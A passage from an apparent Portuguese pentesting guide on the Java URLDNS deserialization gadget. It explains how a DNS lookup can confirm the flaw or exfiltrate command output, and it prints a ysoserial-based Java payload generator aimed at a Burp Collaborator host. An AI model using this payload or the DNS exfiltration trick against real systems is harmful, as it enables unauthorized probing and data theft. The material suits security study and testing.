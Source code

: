 ```java
```
Você pode ver que um `getHostAddress` é executado para o domínio, **lançando uma consulta DNS**.

Portanto, esta classe pode ser **abusada** para **lançar** uma **consulta DNS** para **demonstrar** que a **desserialização** é possível, ou até mesmo para **exfiltrar informações** (você pode anexar como subdomínio a saída de uma execução de comando).

### Exemplo de código de payload URLDNS

Você pode encontrar o [código de payload URDNS do ysoserial aqui](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/URLDNS.java). No entanto, apenas para facilitar a compreensão de como codificá-lo, eu criei meu próprio PoC (baseado no do ysoserial):
```java
import java.io.File;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.InetAddress;
import java.net.URLConnection;
import java.net.URLStreamHandler;
import java.util.HashMap;
import java.net.URL;

public class URLDNS {
public static void GeneratePayload(Object instance, String file)
throws Exception {
//Serialize the constructed payload and write it to the file
File f = new File(file);
ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream(f));
out.writeObject(instance);
out.flush();
out.close();
}
public static void payloadTest(String file) throws Exception {
//Read the written payload and deserialize it
ObjectInputStream in = new ObjectInputStream(new FileInputStream(file));
Object obj = in.readObject();
System.out.println(obj);
in.close();
}

public static void main(final String[] args) throws Exception {
String url = "http://3tx71wjbze3ihjqej2tjw7284zapye.burpcollaborator.net";
HashMap ht = new HashMap(); // HashMap that will contain the URL
URLStreamHandler handler = new SilentURLStreamHandler();
URL u = new URL(null, url, handler); // URL to use as the Key
ht.put(u, url); //The value can be anything that is Serializable, URL as the key is what triggers the DNS lookup.

// During the put above, the URL's hashCode is calculated and cached.
// This resets that so the next time hashCode is called a DNS lookup will be triggered.
final Field field = u.getClass().getDeclaredField("hashCode");
field.setAccessible(true);
field.set(u, -1);

//Test the payloads
GeneratePayload(ht, "C:\\Users\\Public\\payload.serial");
}
}


```